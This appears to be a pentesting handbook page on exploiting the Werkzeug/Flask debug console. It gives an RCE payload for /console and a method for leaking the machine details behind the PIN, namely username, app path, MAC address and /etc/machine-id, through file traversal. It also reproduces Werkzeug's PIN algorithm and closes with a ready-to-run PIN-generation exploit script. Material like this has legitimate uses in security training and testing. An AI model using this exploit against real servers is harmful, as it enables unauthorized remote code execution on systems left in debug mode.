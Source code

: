 werkzeug
Console RCE

If debug is active you could try to access to /console and gain RCE.

__import__('os').popen('whoami').read();

There is also several exploits on the internet like this or one in metasploit.
Pin Protected

In some occasions the /console endpoint is going to be protected by a pin. Here you can find how to generate this pin:

    ​https://www.daehee.com/werkzeug-console-pin-exploit/​

    ​https://ctftime.org/writeup/17955​

Werkzeug Console PIN Exploit

Copied from the first link.
See Werkzeug “console locked” message by forcing debug error page in the app.

The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server

Locate vulernable Werkzeug debug console at path vulnerable-site.com/console, but is locked by secret PIN number.

You can reverse the algorithm generating the console PIN. Inspect Werkzeug’s debug __init__.py file on server e.g. python3.5/site-packages/werkzeug/debug/__init__.py. View Werkzeug source code repo, but better to leak source code through file traversal vulnerability since versions likely differ.

In this file, see relevant method outlining steps to generate console PIN:

def get_pin_and_cookie_name(app):
    pin = os.environ.get('WERKZEUG_DEBUG_PIN')
    rv = None
    num = None
​
    # Pin was explicitly disabled
    if pin == 'off':
        return None, None
​
    # Pin was provided explicitly
    if pin is not None and pin.replace('-', '').isdigit():
        # If there are separators in the pin, return it directly
        if '-' in pin:
            rv = pin
        else:
            num = pin
​
    modname = getattr(app, '__module__',
                      getattr(app.__class__, '__module__'))
​
    try:
        # `getpass.getuser()` imports the `pwd` module,
        # which does not exist in the Google App Engine sandbox.
        username = getpass.getuser()
    except ImportError:
        username = None
​
    mod = sys.modules.get(modname)
​
    # This information only exists to make the cookie unique on the
    # computer, not as a security feature.
    probably_public_bits = [
        username,
        modname,
        getattr(app, '__name__', getattr(app.__class__, '__name__')),
        getattr(mod, '__file__', None),
    ]
​
    # This information is here to make it harder for an attacker to
    # guess the cookie name.  They are unlikely to be contained anywhere
    # within the unauthenticated debug page.
    private_bits = [
        str(uuid.getnode()),
        get_machine_id(),
    ]
​
    h = hashlib.md5()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, text_type):
            bit = bit.encode('utf-8')
        h.update(bit)
    h.update(b'cookiesalt')
​
    cookie_name = '__wzd' + h.hexdigest()[:20]
​
    # If we need to generate a pin we salt it a bit more so that we don't
    # end up with the same value and generate out 9 digits
    if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]
​
    # Format the pincode in groups of digits for easier remembering if
    # we don't have a result yet.
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                              for x in range(0, len(num), group_size))
                break
        else:
            rv = num
​
    return rv, cookie_name

Variables needed to exploit the console PIN:

probably_public_bits = [
    username,
    modname,
    getattr(app, '__name__', getattr(app.__class__, '__name__')),
    getattr(mod, '__file__', None),
]
​
private_bits = [
    str(uuid.getnode()),
    get_machine_id(),
]

    username is the user who started this Flask

    modname is flask.app

    getattr(app, '__name__', getattr (app .__ class__, '__name__')) is Flask

    getattr(mod, '__file__', None) is the absolute path of an app.py in the flask directory

    uuid.getnode() is the MAC address of the current computer, str (uuid.getnode ()) is the decimal expression of the mac address

    get_machine_id() read the value in /etc/machine-id or /proc/sys/kernel/random/boot_i and return directly if there is

To find server MAC address, need to know which network interface is being used to serve the app (e.g. ens3). If unknown, leak /proc/net/arp for device ID and then leak MAC address at /sys/class/net/<device id>/address.

Convert from hex address to decimal representation by running in python e.g.:

>>> print(0x5600027a23ac)
94558041547692

Once all variables prepared, run exploit script to generate Werkzeug console PIN:

import hashlib
from itertools import chain
probably_public_bits = [
	'web3_user',# username
	'flask.app',# modname
	'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
	'/usr/local/lib/python3.5/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
]
​
private_bits = [
	'279275995014060',# str(uuid.getnode()),  /sys/class/net/ens33/address
	'd4e6cb65d59544f3331ea0425dc555a1'# get_machine_id(), /etc/machine-id
]
​
h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
	if not bit:
		continue
	if isinstance(bit, str):
		bit = bit.encode('utf-8')
	h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')
​
cookie_name = '__wzd' + h.hexdigest()[:20]
​
num = None
if num is None:
	h.update(b'pinsalt')
	num = ('%09d' % int(h.hexdigest(), 16))[:9]
​
rv =None
if rv is None:
	for group_size in 5, 4, 3:
		if len(num) % group_size == 0:
			rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
						  for x in range(0, len(num), group_size))
			break
	else:
		rv = num
​
print(rv)
